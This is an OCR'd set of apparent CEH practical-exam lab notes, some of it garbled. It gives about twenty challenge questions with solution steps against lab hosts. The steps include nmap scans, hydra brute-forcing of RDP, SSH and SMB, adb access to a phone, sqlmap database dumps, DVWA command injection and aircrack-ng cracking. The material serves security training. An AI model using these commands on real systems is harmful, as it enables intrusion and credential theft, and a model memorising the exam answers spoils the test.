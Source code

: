 
 1.  ``sudo nmap -Pn -n -p- -A --min-rate 5000 <DC IP>``
 2.  
	 .44.32
 3. Identify a machine with RDP service enabled in the 10.10.55.0/24 subnet. Crack the RDP credentials for user jones and obtain a file hide.cfe containing an encrypted images file. Decrypt the file and enter the CRC32 value of the images file as the answer. Note : Use jones’s password to extract the images file.. (Format: NaaNNNaa). sudo nmap -Pn -n -p 3389 --open --min-rate 5000 10.10.55.0/24 -> find rdp enabled windows machine. hydra -L jones -P /home/attack/Desktop/passwords.txt rdp:// 10.10.55.11 -t 30 -> bruteforcing creds. xfreerdp /v:10.10.55.11 /u: joneshide.cfe -> it is encrypted using CryptForge, to decrypt > select file > right click > decrypt. In Windows 11 machine navigate to E:\CEH-Tools\CEHv12 Module 20 Cryptography\MD5 and MD6 Hash Calculators\HashMyFiles and double click HashMyFiles.exe. Open hide with hashmyfiles utility > scroll righ side > there you can see crc32 value. 4. An insider attack involving one of the employees’s mobile device in the 10.10.55.0/24  subnet has been identified. You are assigned to covertly access the user’s device and obtain hidden data in the image file. Analyse the image file and extract the sensitive data hidden in the file and extract the sensitive data hidden in the files and enter the secret code as the answer. (Format : A*AaAa*AN). sudo nmap -Pn -n -p 5555 --open 10.10.55.0/24 --min-rate 5000 -> identify mobile in subnet. adb connect <Mobile ip>:5555 adb shell >     in shell : search for image file generally it will be in /sdcard/Download > exit adb pull /sdcard/Download /home/attacker(our machine directory to save files). cd Download sudo python3 -m http.server 80 -> to transfer image file to windows in windows(Workstation 2) : To Download image file from parrot Certutil.exe -Urlcache -f http://172.20.10.10/Ceh.jpg C: \path\to\save\file\Ceh.jpg Navigate to E:\CEHv12 Module 06 System Hacking\Steganography Tools\Image Steganography Tools\OpenStego, open it > choose Extract data > select image file Ceh.jpg > select folder to save extracted file > Click on extract data. 5. Perform a vulnerability scan for the host with IP address 192.168.44.32. what is the CVE number of the vulnerability with least severity score? (Format:AAA-NNNN-NNNN). 6. Exploit a remote login and command-line execution application on a Linux target in the 10.10.55.0/24 subnet to access a sensitive file. Netnormal.txt. Enter the content in the file as the answer. (Format : ANaN*ANaN). sudo nmap -Pn -n -p22,23,3389 --open 10.10.55.0/24 --minrate 5000 -> identify Ip sudo nmap -Pn -n -A --min-rate 5000 <Ip> -> to confirm it's linux. hydra -L /home/attacker/Desktop/usernames.txt -P /home/ attacker/Desktop/passwords.txt -t 30 -f ssh linuxadmin@<ip address> find / -name Netnormal.txt -type f 2>/dev/null > cat Netnormal.txt. 7. An Ex-employee of an organization has stolen a vital account credential and stored in a double-encrypted file named restricted.txt before leaving the organization. The credentials are a nine-character alphanumeric string. Enter the credentials as the answer. The restricted.txt file has been identified in the employee email attachment and stored in the “EH-Workstation 2” machine in the Documents. You have learned that “password” is the extract credentials from the restricted.txt. (Format : aaaaa*NNN). Copy the restricted file which is in Documents folder Navigate to E:\CEH-Tools\CEHv12 Module 06 System Hacking\Steganography Tools\Whitespace Steganography Tools > paste restricted.txt > .\Snow.exe -C -p password . \restricted.txt > copy the string > open  cyber chief or crack station online > paste > click on decrypt. 8. Exploit weak credentials used for SMB service on a windows machine in the 10.10.55.0/24 subnet. Obtain the file sniffer.txt hosted on the smb root, and enter its content as the answer. (Format: a*aaNaNNa). sudo nmap -Pn -n -p 445 --open 10.10.55.0/24 --min-rate 5000 -> find device. hydra -L ./usernames.txt -P ./passwords.txt -t 30 smb:// 10.10.55.11 smbmap -H 10.10.55.11 (-u james -p qw3rty (optional)) -> find shares smbclient //10.10.55.11//Users/ get sniffer.txt > cat sniffer.txt 9. You are assigned to analyse and perform static malware analysis on a malicious executable file hell.exe located in Downloads folder of EHWorkstation-2. Determine the Linker Version number of the executable file as answer. (Format : N*NN). eh-workstation-2 (windows) navigate to E:\CEH-Tools\CEHv12 Module 07 Malware Threats\Malware Analysis Tools\Static Malware Analysis Tools\Packaging and Obfuscation Tools\PEid The PEiD main window appears. Click the Browse button to upload a malicious file for analysis. The Choose the file to open window appears; navigate to Downloads folder > choose hell.exe > click on Open. 10. A disgruntled ex-employee Martin has hidden some confidential files in a folder “Scan” in a windows machine in the 10.10.55.0/24 subnet. You cannot physically access the target machine, but you know that the organization has installed a RAT in the machine for remote administrator purposes. Your task is to check how many files present in the scan folder and enter the number of files sniffed by the employee as answer. (Format: N). sudo nmap -Pn -n -p 6703 10.10.55.0/24 --min-rate 5000 -> find device note the <Ip Address> Navigate to E:\CEH-Tools\CEHv12 Module 07 Malware Threats\Trojans Types\Remote Access Trojans (RAT)\Theef and double-click Client210.exe to access the victim machine remotely. Enter the IP address of the target machine in the IP field, and leave the Port and FTP fields set to default; click Connect. Click on File explorer icon > File manager > Expand Hard Drive C: > Users folder > Martin Folder > and find Scan folder > count file present in Scan folder > Enter it as answer. 11. During an assignment, an incident response has detected a suspicious executable file “Strange_File-1”. Your task as a malware analysis is to determine the size of the PT_LOAD(0) segment using SHA224 hash method. The file is in the C:\Users\Admin\Documents directory in the “EH-workstation-2” machine. (Format: NNNaNNaa). In the Windows 11(Workstation-2), navigate to E:\CEHTools\CEHv12 Module 07 Malware Threats\Malware Analysis Tools\Static Malware Analysis Tools\Packaging and Obfuscation Tools\DIE and double-click die.exe. The Open file… window appears; navigate to C: \Users\Admin\Documents choose "Strange_File-1". Right Top Corner there you can "Hash" button" > Click on it > At top you can see Method (select sha224) > in result you can see Size of PT_LOAD(0). 12. You are investigating a massive DDoS attack launched against a target at 172.22.10.10. Your objective is to identify the packets responsible for the attack and determine the least IPv4 packet count sent to the victim machine. The network capture file “Evil-Traffic.pcapng” is saved in the Document folder of the “EH-Workstation-2” windows 11 machine (Format:NNNNN). Open wire shark in windows machine  >  Choose "EvilTraffic.pcapng"  > From upper options "Statistics" > "IPv4 Statistics" > Source and destination Addresses > Type ip.dst == 172.22.10.10 (In Display Filter). 13. Perform as SQL injection attack on your target web application cinema.cehorg.com and extract the password of user Daniel. You have already registered on the website with credentials Karen/computer. (Format:aaaaaaaaa). Login into cinema.cehorg.com with credentials. Click on View Profile > Copy the Url (save it in notepad) > Right click > Inspect element > console > document.cookie > Copy the Cookie value (save it in notepad). sqlmap -u <url> --cookie <cookie value> --dbssqlmap -u <url> --cookie <cookie value> -D cinema_database --tables sqlmap -u <url> --cookie <cookie value> -D cinema_database -T Users_Login --dump 14. Explore the web application at www.cehorg.com and enter the flag’s value on the page with page_id=95. (Format : A**NNAA). visit page www.cehorg.com in website you can ethical hacking hyper link -> link on it you can observe the url parameter was changed > scroll down to see flag value. 15. Perform vulnerability research and exploit the web application training.cehorg.com, available at 10.10.55.50. Locate the Flag.txt file and enter its content as the answer. (Format: A*a*aNNN). dirb http://training.cehorg.com -X .txt http://training.cehorg.com/Flag.txt 16. Perform SQL injection attack on a web application, cybersec.cehorg.com, available at 192.168.44.40. find the value in the flag column in one of the db tables and enter it as the answer. (Format: *aNNaNaAA). visit cybersec.cehorg.com website > scroll down to bottom > there you can see blog hyperlink > click on it > you can observe that the url was chaged with id parameter > copy the url. - Enumerate all databases until find the table with flag column. sqlmap -u <url with id parameter> --dbs sqlmap -u <url with id parameter> -D databasename --tables sqlmap -u <url with id parameter> -D databasename -T flag -dump 17. A set of files has been uploaded through DVWA (http:// 192.168.44.32:8080/DVWA). The files are located in the “C: \Wamp64\www\DVWA\ECweb\Certified\” directory. Access the files and decode the base64 ciphers reveal the original message among them. Enter the decrypted message as the answer. You can log into the DVWA using the credentials admin/password. (Format: A*aaa*AA).login to the dvwa application > set security level low > choose command execution type below commands: | dir "C:\Wamp64\www\DVWA\ECweb\Certified" > there are 3 Cipher.txt files. | type "C:\Wamp64\www\DVWA\ECweb\Certified\Cipher1.txt" | type "C:\Wamp64\www\DVWA\ECweb\Certified\Cipher2.txt" | type "C:\Wamp64\www\DVWA\ECweb\Certified\Cipher3.txt" Use online cyber-chief application to crack : https:// gchq.github.io/CyberChef/ 18. Analyse the traffic capture from an IoT network located in the Documents folder of the “EH-Workstation -1” (ParrotSecurity) machine, identify the packet with IoT Publish Message, and enter the “Topic Length” as the answer. (Format: N). Open IoT capture file in wireshark mqtt and mqtt.msgtype == 3 19. A disgruntled employee of your target organisation has stolen the company’s trade secrets and encrypted them using Veracrypt. The Veracrypt volume file “Its_File” is stored on the C: drive of the required to access the veracrypt volumes has been hashed and saved in a “txt” file in the Documents folder of “EH-Workstation -1” (parrot security) company, you need to decrypt the hash in the Hash2Crack.txt” file, access the veracrypt volume, and find the secret code in the file named EC_data.txt. (Format: NA*aNaa*A). move to parrot machine > cat Hash2crack.txt > it may be md5 > use crackstation online to crack. now, shift back to windows machine > open veracrypt > choose any alphabet > click on browse file and select "Its_File" > click on mount > prompt for password > enter password > move the new drive > there you can see file. 20. Your organisation suspects the presence of a rogue AP in the vicinity. You are tasked with cracking the wireless encryption, connecting to the network, and setting up a honeypot. The airdump-ng tool has been used, and the WiFi traffic capture named “Wifi_Pcap.cap” is located in 20. the Documents folder in “EH-Workstation-1” (parrot machine). Crack the wireless encryption and enter the total number of characters present in the wi-fi password. (Format:N). Open wifi_pcap.cap in wireshark > apply display fileter : wlan.bssid -> to find bssid of access point. aircrack-ng -a2 -b <bssid> ./wifi_pcap.cap -w ./ passwords.txt 